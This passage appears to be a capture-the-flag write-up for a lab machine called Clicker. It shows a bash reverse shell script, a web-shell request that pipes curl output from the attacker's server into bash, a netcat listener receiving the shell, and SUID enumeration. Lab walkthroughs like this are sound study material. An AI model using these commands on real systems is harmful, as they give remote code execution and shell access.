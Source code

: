 Create shell.sh:

```bash
#!/bin/sh
bash -i >& /dev/tcp/10.10.16.9/4444 0>&1
```

Run http server:

```bash
$ python -m http.server 8001
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
10.10.11.232 - - [29/Sep/2023 17:54:08] "GET /shell.sh HTTP/1.1" 200 -
```

Going to: http://clicker.htb/exports/top_players_a3pitdu4.php?cmd=curl%20http://10.10.16.9:8001/shell.sh%20|%20bash

Getting shell:

```bash
$ nc -lnvp 4444
listening on [any] 4444 ...
id
connect to [10.10.16.9] from (UNKNOWN) [10.10.11.232] 57802
bash: cannot set terminal process group (1199): Inappropriate ioctl for device
bash: no job control in this shell
www-data@clicker:/var/www/clicker.htb/exports$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@clicker:/var/www/clicker.htb/exports$
```

Let’s start with some basic enumeration on the www-data user.

```bash
www-data@clicker:/var/www/clicker.htb/exports$  find / -perm -4000 2>/dev/null
<licker.htb/exports$  find / -perm -4000 2>/dev/null
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/fusermount3
/usr/bin/su
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/mount
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/libexec/polkit-agent-helper-1
/usr/sbin/mount.nfs
/opt/manage/execute_query

www-data@clicker:/var/www/clicker.htb/exports$ ls -la /opt/manage/execute_query
<icker.htb/exports$ ls -la /opt/manage/execute_query
-rwsrwsr-x 1 jack jack 16368 Feb 26  2023 /opt/manage/execute_query

www-data@clicker:/var/www/clicker.htb/exports$ cd /opt/manage
cd /opt/manage
www-data@clicker:/opt/manage$ ls
ls
README.txt  execute_query
www-data@clicker:/opt/manage$ cat README.txt
cat README.txt
Web application Management

Use the binary to execute the following task:
        - 1: Creates the database structure and adds user admin
        - 2: Creates fake players (better not tell anyone)
```
